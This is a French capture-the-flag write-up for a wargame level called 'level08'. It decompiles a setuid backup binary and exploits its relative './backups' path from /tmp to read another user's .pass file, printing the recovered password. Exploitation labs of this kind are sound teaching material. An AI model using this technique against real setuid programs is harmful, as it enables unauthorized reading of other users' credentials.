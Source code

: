 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1008(level08) gid=1008(level08) groups=1008(level08),100(users)
/home/users/level08
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
```

Je trouve un binaire `level08`, que je tente d'éxecuter ainsi qu'un dossier `backups`:

```bash
$ cd backups/
$ ls -la
total 0
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
$ cat .log
$
$ cd ..
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
$ ./level08 /backups/.log
ERROR: Failed to open /backups/.log
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=fb42ad07-6308-45df-b8f7-fe3953c56ac1#BinaryNinja=305) en recoupant avec les compilateurs qui marchent et l'ASM :

```c
void log_wrapper(FILE *file, char *msg, char *filename)
{
    char buf[264];

    strcpy(buf, msg);
    snprintf(&buf[strlen(buf)], 254 - strlen(buf), filename);

    buf[strcspn(buf, "\n")] = 0;

    fprintf(file, "LOG: %s\n", buf);
}

int main(int ac, char **av)
{
    FILE *log;
    FILE *file;
    int fd;
    char c;
    char path[104];

    c = -1;
    fd = -1;

    if (ac != 2) 
    {
        printf("Usage: %s filename\n", *av);
    }

    log = fopen("./backups/.log", "w");
    if (!log)
    {
        printf("ERROR: Failed to open %s\n", "./backups/.log");
        exit(1);
    }

    log_wrapper(log, "Starting back up: ", av[1]);

    file = fopen(av[1], "r"); // <--------------2 creating a /home/.../.pass file in /tmp/backups to circumvent permissions allows getting the pass
    if (!file)
    {
        printf("ERROR: Failed to open %s\n", av[1]);
        exit(1);
    }

    strcpy(path, "./backups/");
    strncat(path, av[1], 99 - strlen(path));
    fd = open(path, 193, 432LL);
    if (fd < 0)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", av[1]);
        exit(1);
    }

    while ((c = fgetc(file)) != -1) // <--------1 reads the file passed as arg and write to a file named the same in ./backups
        write(fd, &c, 1uLL);

    log_wrapper(log, "Finished back up ", argv[1]);
    fclose(file);
    close(fd);
    return 0;
}
```

Comme dans le précédent niveau, je n'observe pas spécialement de fonction vulnérable, cependant, en analysant ce que fais le programme je note qu'il :

- Prend en argument le nom d'un fichier
- Le lit
- L'écrit dans un fichier dans le dossier `./backups` (celui où je me trouve donc, puisque path relatif)
- Si le path n'existe pas dans le dossier `./backups`, le backup échoue
- Si le path existe, le backup réussis et le fichier dans `./backups` et donc actualisé par le binaire

Naturellement, j'essaye donc de créer un fichier `.pass` dans `backups` :

```bash
$ cd backups
$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

Or, je n'ai pas les droits. Cependant, je note que le dossier backups utilisé est relatif à l'endroit où le binaire est exécuté, et j'ai les droits d'écrire dans `/tmp` dans la VM, facile :

```bash
$ cd /tmp
$ mkdir -p backups/home/users/level09/
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

